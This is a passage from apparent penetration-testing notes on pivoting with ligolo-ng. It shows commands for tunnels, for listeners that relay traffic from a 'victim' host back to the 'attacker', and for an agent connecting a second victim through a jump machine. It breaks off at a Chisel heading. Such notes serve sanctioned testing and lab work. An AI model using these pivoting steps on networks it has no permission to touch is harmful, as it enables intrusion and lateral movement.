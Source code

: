 Then start the tunnel

```ligolo
ligolo-ng » start
```

### Bridge Link

Set up a listener on the victim machine to redirect incoming traffic to the attacker machine.

- Configure listener on the proxy

```ligolo
listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp
```
--addr Pivot host
--to Attacker
### Pivoting Between Machines

Create multiple sessions to pivot between machines by setting up listeners at each hop.

1. Add a second TUN interface

```
sudo ip tuntap add user $(whoami) mode tun ligolo-double
```

```
sudo ip link set ligolo-double up
```

```
sudo ip r add 172.16.210.0/24 dev ligolo-double
```


 2. Configure listener on the jump machine

```ligolo
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp
```

3. Connect 2 victim to the jump machine then it connects to attacker

```shell
./agent -connect 172.16.1.110:11601 -ignore-cert
```

4. Start tunnel

```
session
```

```
start --tun ligolo-double
```

## Chisel

Running the Chisel Server on the Pivot Host
